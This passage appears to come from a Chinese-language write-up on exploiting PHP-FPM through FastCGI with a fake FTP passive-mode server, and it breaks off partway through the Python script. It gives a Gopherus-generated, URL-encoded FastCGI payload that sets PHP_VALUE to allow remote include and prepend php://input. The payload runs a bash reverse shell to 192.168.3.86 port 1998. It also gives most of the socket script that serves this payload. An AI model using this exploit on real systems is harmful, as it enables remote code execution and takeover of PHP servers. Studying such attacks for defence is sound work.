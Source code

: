 > 这个数组其实就是 PHP 中 `$_SERVER` 数组的一部分，也就是 PHP 里的环境变量，但环境变量的作用不仅是填充 `$_SERVER` 数组，也是告诉 fpm 要执行哪个PHP文件，PHP-FPM 拿到 fastcgi 的数据包后进行解析，得到上述这些环境变量。然后执行 `SCRIPT_FILENAME` 的值指向 PHP 文件，也就是 `/var/www/html/index.php`

# 攻击方式
> 先用 `Gopherus` 构造 Payload，取出 payload 中 _ 后面的字符

<img src="./images/4.png" alt="">

> 接着打 ftp 被动

```python
import socket
from urllib.parse import unquote
​
# 对gopherus生成的payload进行一次urldecode
payload = unquote("%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%15%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH104%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%27SCRIPT_FILENAME/www/wwwroot/127.0.0.1/public/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00h%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.3.86/1998%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00")
payload = payload.encode('utf-8')
​
host = '0.0.0.0'
port = 23
sk = socket.socket()
sk.bind((host, port))
sk.listen(5)
​
# ftp被动模式的passvie port,监听到1234
sk2 = socket.socket()
sk2.bind((host, 1234))
sk2.listen()
​
# 计数器，用于区分是第几次ftp连接
count = 1
while 1:
    conn, address = sk.accept()
    conn.send(b"200 \n")
    print(conn.recv(20))  # USER aaa\r\n  客户端传来用户名
    if count == 1:
        conn.send(b"220 ready\n")
    else:
        conn.send(b"200 ready\n")
​
    print(conn.recv(20))   # TYPE I\r\n  客户端告诉服务端以什么格式传输数据，TYPE I表示二进制， TYPE A表示文本
    if count == 1:
        conn.send(b"215 \n")
    else:
        conn.send(b"200 \n")
​
    print(conn.recv(20))  # SIZE /123\r\n  客户端询问文件/123的大小
    if count == 1:
        conn.send(b"213 3 \n")  
    else:
        conn.send(b"300 \n")
​
    print(conn.recv(20))  # EPSV\r\n'
    conn.send(b"200 \n")
​
    print(conn.recv(20))   # PASV\r\n  客户端告诉服务端进入被动连接模式
```